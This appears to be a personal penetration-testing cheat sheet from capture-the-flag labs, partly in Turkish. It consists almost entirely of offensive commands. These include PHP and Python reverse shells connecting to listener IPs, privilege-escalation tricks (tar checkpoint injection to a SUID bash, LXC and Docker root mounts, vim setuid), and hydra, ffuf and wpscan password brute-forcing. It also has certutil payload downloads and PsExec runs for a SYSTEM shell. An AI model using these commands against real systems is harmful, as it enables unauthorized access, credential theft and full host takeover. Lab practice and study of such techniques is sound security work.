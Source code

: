 shell stab python

usr/bin/script -qc /bin/bash /dev/null
without python

python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
stty rows 55 columns 116

getcap -r / 2>/dev/null -- capabilities


sudo nmap -sS -sV -n -vv -Pn -p- 


suid file 

find / -uid 0 -perm -4000 -type f 2>/dev/null

hydra brute force login form

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.32 http-post-form "/admin/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"

ffuf brute force 
ffuf -w valid_users.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.139.242/customers/login -fc 200


thm='php' $thm -r '$sock=fsockopen("10.11.51.187",1234);passthru("sh <&3 >&3 2>&3");'

'python3' -c 'import os,pty,socket;s=socket.socket();s.connect(("10.11.51.187",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

/usr/bin/pyth??? -c 'import os,pty,socket;s=socket.socket();s.connect(("10.9.163.154",4445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'


---- docker root
docker run -v /etc/:/mnt -it alpine

-------
smbye kullanıcıyla girme

smbclient //ip/kullanıcı -U kullanıcı

----- tar ile sudo 
-dosya oluştur içine cp /bin/bash /tmp/dosya adı && chmod +s /tmp/dosya adı

ardından
touch "/var/www/html/--checkpoint-action=exec=sh dosya_adı.sh"
touch "/var/www/html/--checkpoint=1"

ardından /tmp/dosya adı -p ile çalıştır

-----

LXC PrivEsc

lxc image import ./alpine.tar.gz --alias (isim)

lxc init valerie gaming -c security.privileged=true
lxc config device add gaming mydevice disk source=/root path=/mnt/root recursive=true
lxc start gaming
lxc exec gaming /bin/sh

----- anonim olarak girilen ftpye put ile dosya yüklenebilir

----- rate limit düşürerek gözden kaçan portları bulma
sudo nmap -p- --min-rate 1000 10.10.122.24

---- wpscan ile wp-login brute force
 wpscan --url http://10.10.83.65 -U c0ldd,hugo,philip -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 100

--------- wpscan aracı ile wordpress enum
wpscan --url http://10.10.220.178/wordpress/ -e u

--ffuf ile subdomain enum
ffuf -u http://mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.mydomain.com' -fs 0


----- base64
lfile ata
base64 decode yap
------
--vim cap
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

-- searchsploit db update -u

-- powershellde dosya bulunamıyor başlamıyorsa absolute path vermek gerekir.**

---curl ile [] kullanılacaksa -g kullanmalı. (get_cmd kullanıken eklenebilir. globing)

---gpg
.asc uzantısı anahtardır. 
gpg2john dosya.asc > hash şeklinde dönüşüm sağlanır parola kırılır.

gpg --import dosya.asc import edilir. 
gpg --decrypt kilitli_dosya.pgp parolayla açılır.

----HYDRA--
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.183.130 http-post-form "/Account/login.aspx:__VIEWSTATE=AUqYC6%2B2PCo3uYXvn8%2Feh%2BL9N5CXfHPdTu9jDoVOHrO2WCALA0%2BH0CVCIN3Lp%2ByGLlWrGb49JbK9HmXjYPUYZmXx8UKBIcKuo7vW2cpbNKuiCHC9YDcIo%2FeHbuIaXXFy6PCXzA9Q0E7nr4j7WnW0xAqruJ5DRnDMrDIrRQJuRlwFKqA17%2FwUqsp8Ru0N6vQGKdDZwEhetIKNNwcG0zg9LH1vG4LDAiWEBaZf%2BFf0dDaUSKoWgTgLhRlcc%2BlAb5FW8vJU9Tw1%2F7gHlGP8IPuMPrgwX8pnxKFQoaxm2uVp9n%2BItqgvFI63KF4z%2BSGuj5cfQh3PMfrwTnhX%2BxrsOiKPsDMimYO2W2EbGg%2FuUOo0p0hlRzWc&__EVENTVALIDATION=WNhphsDiUIO1CarLUkEeS2TtKGqTbAQ4vCZ2dqpIbem60ahrcisTBB2tLJOVY4kOIM6MpCIxpdsIIUT3VT0HcQVWk%2FGNqdcvALxT5hp8uqi9xGfKU953oOW%2F0XBL9XnE0vzBFckA5dYkNmss2VSvpruxNPQ%2BOOcklwdG%2FAwbfYGIlc1d&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

--ping ile istek kontrolü 
sudo tcpdump -i tun0 icmp -A --print

---ps indirme certutil -urlcache -f http://10.11.51.187/PsExec64.exe p.exe

--ps exe çalıştırma ve parametreleri 
.\p.exe -accepteula(popup ekranı onaylayarak çıkmasını engeller) -i -d -s(sistem shelli verir) C:\Users\bruce\Downloads\shell.exe

--buffer owerflow bad character tespiti araştır

--wget ip/{dosya isimleri}

--kali$ nc -lnvp 80 < index.php --netcate dosya yönlendirilirse wget doğrudan onu alır
client$ wget 1.1.1.1 -O shell.php

---BASH--
cat <<EOF > foo.sh
#!/bin/bash

sdlşfksşf
EOF

---ffuf subdomain enum--
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.acmeitsupport.thm' -u http://10.10.25.169 -fs 2395

--ffuf username enum--
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.51.251/customers/signup -mr "username already exists"

--ffuf brute force 
           
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

--satır sayısı
wc -c 

 -- ftpden uygun verileri indirme
 wget -m --no-passive ftp://anonymous:anonymous@1.1.1.1
 
 -- mount nfs
 showmount -e 1.1.1.1
 
 sudo mount -t nfs 1.1.1.1:/mnt/nfsshare /home/kali/target-NFS
 
 sudo umount /home/kali/target-NFS


 
